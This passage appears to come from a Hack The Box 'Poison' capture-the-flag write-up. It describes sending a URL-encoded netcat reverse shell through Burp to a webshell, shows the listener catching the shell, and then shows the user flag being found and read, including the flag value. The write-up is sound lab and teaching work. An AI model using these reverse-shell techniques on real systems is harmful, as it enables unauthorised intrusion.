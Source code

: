 Success! At this point, I encoded a netcat reverse shell from [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

![](/assets/images/htb-poison/poison-burp-url-encode-nc-revshell.png)

I then sent the new payload with Burp to get a reverse shell as the `www-data` user:

![](/assets/images/htb-poison/poison-burp-send-reverse-shell-to-webshell.png)

```
$ ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:28853.
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
```

## Privilege Escalation (Root VNC Session Hijacking)

After owning the `charix` user, I switched to `/bin/sh` since `/bin/csh` doesn't understant the stderr (`2>`) operator.

```
charix@Poison:~ % find / -name user.txt 2>/dev/null
find: 2: unknown primary or operator
charix@Poison:~ % which bash
bash: Command not found.
charix@Poison:~ % which sh
/bin/sh
charix@Poison:~ % sh
$ find / -name user.txt 2>/dev/null
/home/charix/user.txt
$ cat /home/charix/user.txt
eaacdfb2d141b72a589233063604209c
```

